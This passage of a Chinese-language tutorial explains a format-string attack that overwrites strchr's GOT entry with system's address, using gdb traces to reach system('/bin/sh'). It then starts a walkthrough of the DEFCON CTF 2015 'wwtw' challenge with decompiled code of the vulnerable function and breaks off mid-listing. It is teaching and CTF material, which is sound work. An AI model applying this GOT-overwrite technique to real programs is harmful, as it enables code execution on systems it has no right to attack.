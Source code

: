 接着执行printf的调用：

```
(gdb) nn
   0x002a918d in ?? ()
=> 0x2a918d:    lea    eax,[ebx-0x1fb4]

```

调用printf之后，查看目标地址002AD05C的值：

```
(gdb) dd 0x002AD05C
0x002AD05C : 00946210 002A89B6 00921C00 002A89D6
0x002AD06C : 0099C620 002A89F6 00A07EC0 002A8A16
0x002AD07C : 009EF0D0 009371C0 009EEBD0 002A8A56
0x002AD08C : 00000000 002AD090 00000000 00000000

```

原来的009843E0变成了00946210，也就是system的地址，可以查看一下：

```
(gdb) uu 0x946210
   0x946210 <system>:   sub    esp,0xc
   0x946213 <system+3>: mov    DWORD PTR [esp+0x4],esi
   0x946217 <system+7>: mov    esi,DWORD PTR [esp+0x10]

```

此时对strchr的调用变成了对system的调用，随后如果攻击者发送"/bin/sh"字符串,本来由strchr处理的事情，现在变成了由system处理，从而达成了执行system("/bin/sh")的目标。

0x04 实例分析
=====

这里采用了DEFCON CTF 2015的一个pwn做为例子(wwtw_c3722e23150e1d5abbc1c248d99d718d)。

在wwtw前面的俄罗斯方块的剧情可nop掉，以便程序直接到我们关注的函数sub_1027()。此外，定时器也会影响调试，给nop掉以方便调试。 要攻击的目标函数流程如下：

```
    #!c++
int sub_1027()
{
  double v0; // ST28_8@6
  int result; // eax@9
  int v2; // ecx@9
  char *nptr; // [sp+24h] [bp-424h]@4
  double v4; // [sp+30h] [bp-418h]@6
  char s; // [sp+3Ch] [bp-40Ch]@2
  int v6; // [sp+43Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Coordinates: ");
      fflush(stdout);
      if ( sub_F7E(0, (int)&s, 0x3FF, 10) == -1 )
        exit(-1);
      nptr = strchr(&s, 0x2C);
      if ( nptr )
        break;
      puts("Invalid coordinates");
    }
    v0 = atof(&s);
    v4 = atof(nptr + 1);
    printf("%f, %f\n", v0, v4);
```